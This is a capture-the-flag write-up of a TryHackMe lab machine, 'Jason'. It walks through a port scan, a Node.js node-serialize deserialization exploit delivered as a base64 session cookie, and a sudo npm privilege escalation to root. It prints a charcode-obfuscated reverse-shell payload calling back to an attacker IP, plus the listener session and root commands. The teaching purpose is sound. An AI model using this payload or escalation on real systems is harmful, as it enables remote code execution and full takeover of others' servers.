```yaml
---
title : "Jason - Write Up"
date : 2021-10-12T20:02:42+02:00
author : "Lanfran02"
cover : "cover.png"
useRelativeCover : true
description : "TryHackMe's easy level machine."
tags : ["NodeJS","unserialize","sudo","nc","TryHackMe"]
---
```


| Link | Level | Creator |
|------|-------|---------|
| [Here](https://tryhackme.com/room/jason)  | Easy  |  [elbee](https://tryhackme.com/p/elbee)  |


## Reconn

Starting as in every CTF, we launch `nmap` against the machine.

```bash
╰─ lanfran@parrot ❯ sudo nmap 10.10.237.12 -p- -sS --min-rate 5000 -n -Pn                                                          ─╯
[sudo] password for lanfran: 
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-10-12 20:11 CEST
Nmap scan report for 10.10.237.12
Host is up (0.25s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 23.81 seconds
```
Good! We found a web server running on port `80`!

Let's go directly to it!

![email](email.png)

It's just a page created in `NodeJS` that show us the email that we used.

But... We have a session cookie!

![cookies](cookies.png)

Maybe we can decode it to see what's inside of it...

```bash
╰─ lanfran@parrot ❯ echo "eyJlbWFpbCI6ImFkbWluQGVtYWlsLmNvbSJ9" | base64 -d                                                        ─╯
{"email":"admin@mail.com"}% 
```

Great!!! We know that this cookie stores the email that we use as an input!

## Foothold - User

Googling for some deserialization exploit for NodeJS, I found [this site](https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/) where they explain the exploit very good!

In resume we will need create a NodeJS reverse shell, serialize it, and encode it in base64 to use it as our `session` cookie!

[Here it's the file to create the reverse shell's code](https://github.com/ajinabraham/Node.Js-Security-Course/blob/master/nodejsshell.py)

And after getting the code, you can use the [online node-serialize](https://npm.runkit.com/node-serialize) library to serialize your payload! [Here](https://runkit.com/embed/g49fa5tg1ozl) it's a template on how should like your code.

Also dropping you the code below!

```js
var y = {"email": function(){eval(String.fromCharCode(your_payload))}};

var serialize = require('node-serialize');
var serialezd = serialize.serialize(y);
console.log(serialezd)
```

After that, don't forget to add the last () at the end of the payload, as they explain you in [this post](https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/)
![explain](last_\(\).png)

Your serialized code should look similar to this:
```js
{"email":"_$$ND_FUNC$$_function email() {\n          eval(String.fromCharCode(10, 118, 97, 114, 32, 110, 101, 116, 32, 61, 32, 114, 101, 113, 117, 105, 114, 101, 40, 39, 110, 101, 116, 39, 41, 59, 10, 118, 97, 114, 32, 115, 112, 97, 119, 110, 32, 61, 32, 114, 101, 113, 117, 105, 114, 101, 40, 39, 99, 104, 105, 108, 100, 95, 112, 114, 111, 99, 101, 115, 115, 39, 41, 46, 115, 112, 97, 119, 110, 59, 10, 72, 79, 83, 84, 61, 34, 49, 48, 46, 57, 46, 52, 46, 49, 49, 55, 34, 59, 10, 80, 79, 82, 84, 61, 34, 49, 51, 51, 55, 34, 59, 10, 84, 73, 77, 69, 79, 85, 84, 61, 34, 53, 48, 48, 48, 34, 59, 10, 105, 102, 32, 40, 116, 121, 112, 101, 111, 102, 32, 83, 116, 114, 105, 110, 103, 46, 112, 114, 111, 116, 111, 116, 121, 112, 101, 46, 99, 111, 110, 116, 97, 105, 110, 115, 32, 61, 61, 61, 32, 39, 117, 110, 100, 101, 102, 105, 110, 101, 100, 39, 41, 32, 123, 32, 83, 116, 114, 105, 110, 103, 46, 112, 114, 111, 116, 111, 116, 121, 112, 101, 46, 99, 111, 110, 116, 97, 105, 110, 115, 32, 61, 32, 102, 117, 110, 99, 116, 105, 111, 110, 40, 105, 116, 41, 32, 123, 32, 114, 101, 116, 117, 114, 110, 32, 116, 104, 105, 115, 46, 105, 110, 100, 101, 120, 79, 102, 40, 105, 116, 41, 32, 33, 61, 32, 45, 49, 59, 32, 125, 59, 32, 125, 10, 102, 117, 110, 99, 116, 105, 111, 110, 32, 99, 40, 72, 79, 83, 84, 44, 80, 79, 82, 84, 41, 32, 123, 10, 32, 32, 32, 32, 118, 97, 114, 32, 99, 108, 105, 101, 110, 116, 32, 61, 32, 110, 101, 119, 32, 110, 101, 116, 46, 83, 111, 99, 107, 101, 116, 40, 41, 59, 10, 32, 32, 32, 32, 99, 108, 105, 101, 110, 116, 46, 99, 111, 110, 110, 101, 99, 116, 40, 80, 79, 82, 84, 44, 32, 72, 79, 83, 84, 44, 32, 102, 117, 110, 99, 116, 105, 111, 110, 40, 41, 32, 123, 10, 32, 32, 32, 32, 32, 32, 32, 32, 118, 97, 114, 32, 115, 104, 32, 61, 32, 115, 112, 97, 119, 110, 40, 39, 47, 98, 105, 110, 47, 115, 104, 39, 44, 91, 93, 41, 59, 10, 32, 32, 32, 32, 32, 32, 32, 32, 99, 108, 105, 101, 110, 116, 46, 119, 114, 105, 116, 101, 40, 34, 67, 111, 110, 110, 101, 99, 116, 101, 100, 33, 92, 110, 34, 41, 59, 10, 32, 32, 32, 32, 32, 32, 32, 32, 99, 108, 105, 101, 110, 116, 46, 112, 105, 112, 101, 40, 115, 104, 46, 115, 116, 100, 105, 110, 41, 59, 10, 32, 32, 32, 32, 32, 32, 32, 32, 115, 104, 46, 115, 116, 100, 111, 117, 116, 46, 112, 105, 112, 101, 40, 99, 108, 105, 101, 110, 116, 41, 59, 10, 32, 32, 32, 32, 32, 32, 32, 32, 115, 104, 46, 115, 116, 100, 101, 114, 114, 46, 112, 105, 112, 101, 40, 99, 108, 105, 101, 110, 116, 41, 59, 10, 32, 32, 32, 32, 32, 32, 32, 32, 115, 104, 46, 111, 110, 40, 39, 101, 120, 105, 116, 39, 44, 102, 117, 110, 99, 116, 105, 111, 110, 40, 99, 111, 100, 101, 44, 115, 105, 103, 110, 97, 108, 41, 123, 10, 32, 32, 32, 32, 32, 32, 32, 32, 32, 32, 99, 108, 105, 101, 110, 116, 46, 101, 110, 100, 40, 34, 68, 105, 115, 99, 111, 110, 110, 101, 99, 116, 101, 100, 33, 92, 110, 34, 41, 59, 10, 32, 32, 32, 32, 32, 32, 32, 32, 125, 41, 59, 10, 32, 32, 32, 32, 125, 41, 59, 10, 32, 32, 32, 32, 99, 108, 105, 101, 110, 116, 46, 111, 110, 40, 39, 101, 114, 114, 111, 114, 39, 44, 32, 102, 117, 110, 99, 116, 105, 111, 110, 40, 101, 41, 32, 123, 10, 32, 32, 32, 32, 32, 32, 32, 32, 115, 101, 116, 84, 105, 109, 101, 111, 117, 116, 40, 99, 40, 72, 79, 83, 84, 44, 80, 79, 82, 84, 41, 44, 32, 84, 73, 77, 69, 79, 85, 84, 41, 59, 10, 32, 32, 32, 32, 125, 41, 59, 10, 125, 10, 99, 40, 72, 79, 83, 84, 44, 80, 79, 82, 84, 41, 59, 10));\n        }()"}
```
_Don't forget the last ()!!!! Otherwise the payload won't work!_

After that, encode it to base64 and use it as a cookie!

Refreshing the page, _while listening in the desired port_, we should now have a reverse shell as Dylan!

```bash
╰─ lanfran@parrot ❯ nc -nlvp 1337                                                                                                  ─╯
listening on [any] 1337 ...
connect to [10.9.4.117] from (UNKNOWN) [10.10.237.12] 43016
Connected!
id
uid=1000(dylan) gid=1000(dylan) groups=1000(dylan)
cat /home/dylan/user.txt
0[REDACTED]c

```
## Root

Great! Let's escalate to root!

Some normal reconn give us powerful info!

```bash
dylan@jason:~$ sudo -l
Matching Defaults entries for dylan on jason:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User dylan may run the following commands on jason:
    (ALL) NOPASSWD: /usr/bin/npm *
```

Our user can run `npm` as `root`!

Using [GTFOBins](https://gtfobins.github.io/gtfobins/npm/) we can easily escalate to root!

```bash 
dylan@jason:~$ TF=$(mktemp -d)
dylan@jason:~$ echo '{"scripts": {"preinstall": "/bin/sh"}}' > $TF/package.json
dylan@jason:~$ sudo npm -C $TF --unsafe-perm i

> @ preinstall /tmp/tmp.mskP1rW5qW
> /bin/sh

# id
uid=0(root) gid=0(root) groups=0(root)
# cat /root/root.txt
2[REDACTED]e
```

And we rooted the machine!

That's all from my side, hope you find this helpful!